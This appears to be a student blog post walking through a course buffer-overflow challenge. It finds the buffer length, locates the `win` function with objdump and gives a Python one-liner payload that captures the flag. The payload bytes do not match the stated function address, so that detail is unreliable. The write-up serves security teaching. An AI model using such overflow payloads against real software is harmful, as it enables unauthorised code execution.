 ```yaml
---
title: "Buffer Overflow - 3"
date: 2019-07-12T03:16:59+10:00

categories: ["Extended Security", "Musings"]

hiddenFromHomePage: false
postMetaInFooter: false

flowchartDiagrams:
  enable: false
  options: ""

sequenceDiagrams: 
  enable: false
  options: ""

---
```


This time the code is hidden

Note, I originally attempted this with [commit #a798f95](https://github.com/secedu/COMP6841-exploitpractice/blob/55550815cf6ed1fded421c1f59b5310284900257/buffer_overflow/1.2-blind/blind). But since then there's been an updated version, available [here](https://github.com/secedu/COMP6841-exploitpractice/blob/master/buffer_overflow/1.2-blind/blind)

# Analysis

We'll need to find two things

1) The length of the buffer  
2) The function address of `win`

## Buffer Length

After an input of 76 characters, we get a segfault - so our `buffer` array is probably 76 characters. So later when we need to overflow the buffer, we will need to prepend 76 (arbitrary) characters.

## Function pointer address

As we don't have any code, we'll need to inspect the executable file to find the function pointer address.

```
$> objdump -d blind | grep win

---

080484d6 <win>:
```

Cool, so our address is at `0x080484d6`.  

Putting these together...

```
$> python -c 'print("A" * 76 + "\x06\x85\x04\x08")'  | aslr ./blind

---

This is almost exactly the same as jump...
COMP6841{Ooh_Youre_Good}Segmentation fault
```

<!-- hex(0x56555000 + 0x080484d6)
'0x5e59d4d6'

https://security.stackexchange.com/questions/197232/how-does-this-simple-buffer-overflow-work -->
